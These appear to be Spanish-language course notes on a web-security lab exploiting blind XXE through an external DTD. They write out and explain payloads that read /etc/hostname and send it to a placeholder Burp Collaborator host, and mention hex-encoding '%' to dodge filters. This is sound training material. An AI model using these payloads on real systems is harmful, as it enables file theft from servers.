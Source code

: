 En esta clase continuamos con el mismo laboratorio anterior, centrado en la explotación de una vulnerabilidad XXE ciega mediante una DTD externa maliciosa. Ya tenemos definido y alojado el archivo DTD en nuestro exploit server, y ahora utilizamos este recurso para finalizar la exfiltración del contenido del archivo /etc/hostname.

Repasamos cómo se estructura correctamente la carga XML que referencia esa DTD, y analizamos los resultados obtenidos en Burp Collaborator para verificar que la petición externa con los datos del archivo fue realizada correctamente. Este enfoque consolida el uso de entidades parametrizadas en DTD externas como una técnica poderosa para filtrar información sensible en entornos sin salida directa.

Solucion
Explicacion de los payloads
(<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;)
## 🧩 Desglose paso a paso

### 1. `<!ENTITY % file SYSTEM "file:///etc/hostname">`

- Declara una **entidad de parámetro** llamada `%file`.
    
- Su contenido será el **contenido real del archivo `/etc/hostname`** (en sistemas Unix/Linux, este archivo contiene el nombre del host del sistema).
    

---

### 2. `<!ENTITY % eval "...">`

- Declara una **nueva entidad de parámetro** llamada `%eval`.
    
- Su contenido es **otra declaración de entidad DTD**, codificada como texto.
    

xml

CopiarEditar

`"<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"`

- Aquí `&#x25;` es el **carácter `%` en hexadecimal**, usado para evadir filtros.
    
- Esto crea una entidad llamada `%exfil`, cuyo valor será el resultado de una petición a:
    
    ruby
    
    CopiarEditar
    
    `http://BURP-COLLABORATOR-SUBDOMAIN/?x=[contenido de /etc/hostname]`
    

---

### 3. `%eval;`

- Expande la entidad `%eval`, lo que **inyecta dinámicamente la declaración de `%exfil`** en el DTD.
    

---

### 4. `%exfil;`

- Finalmente se **invoca `%exfil`**, lo que hace que el servidor **haga una solicitud HTTP al dominio del atacante**, enviando como parámetro el contenido de `/etc/hostname`.

El otro payload (<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>)

## 🧩 ¿Qué hace este payload?

### 1. `<!ENTITY % xxe SYSTEM "YOUR-DTD-URL">`

- Declara una **entidad de parámetro** llamada `%xxe`.
    
- Su valor **no está definido localmente**, sino que se obtiene desde una **URL externa controlada por el atacante** (tu propia DTD personalizada).
    

### 2. `%xxe;`

- Expande esa entidad, lo que **inyecta el contenido del archivo DTD remoto** dentro del DTD local.
    
- Ese contenido puede incluir **nuevas entidades**, como:
    
    - Lectura de archivos locales.
        
    - Exfiltración de datos a través de HTTP.
        
    - Denegación de servicio, etc.

![Pasted image 20250730200622.png](imagenes/Pasted image 20250730200622.png)
